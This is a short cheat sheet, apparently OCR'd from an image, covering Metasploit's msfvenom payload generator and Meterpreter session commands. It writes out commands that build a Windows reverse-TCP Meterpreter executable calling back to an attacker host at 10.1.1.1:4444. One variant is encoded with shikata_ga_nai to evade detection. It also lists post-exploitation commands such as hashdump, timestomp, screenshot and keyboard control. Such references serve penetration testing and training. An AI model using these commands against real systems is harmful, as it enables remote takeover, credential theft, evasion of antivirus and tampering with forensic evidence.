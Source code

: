 **Msfvenom Tool**

- **Generate Payloads**

```css
$ msfvenom –p [PayloadPath] –f [FormatType] LHOST=[LocalHost] LPORT=[LocalPort]

```

*Example:*

- `$ msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=10.1.1.1 LPORT=4444 > met.exe`
- **Format Options**
    - `exe` – Executable
    - `pl` – Perl
    - `rb` – Ruby
    - `raw` – Raw shellcode
    - `c` – C code
- **Encoding Payloads**

```css
$ msfvenom -p [Payload] -e [Encoder] -f [FormatType] -i [EncodeIterations] LHOST=[LocalHost] LPORT=[LocalPort]

```

*Example:*

- `$ msfvenom -p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe LHOST=10.1.1.1 LPORT=4444 > mal.exe`

---

**Metasploit Meterpreter Commands**

- **Base Commands**
    - `? / help`: Display command summary
    - `exit / quit`: Exit Meterpreter session
    - `sysinfo`: Show system name and OS
    - `shutdown / reboot`: Self-explanatory
- **File System Commands**
    - `cd`, `lcd`, `pwd / getwd`, `ls`, `cat`
    - `download / upload`
    - `mkdir / rmdir`
    - `edit`
- **Process Commands**
    - `getpid`, `getuid`, `ps`, `kill`, `execute`, `migrate`
- **Network Commands**
    - `ipconfig`, `portfwd`, `route`
- **Misc Commands**
    - `idletime`, `uictl [enable/disable] [keyboard/mouse]`, `screenshot`
- **Additional Modules**
    - `use [module]`
    - Example: `use priv`, `hashdump`, `timestomp`

---
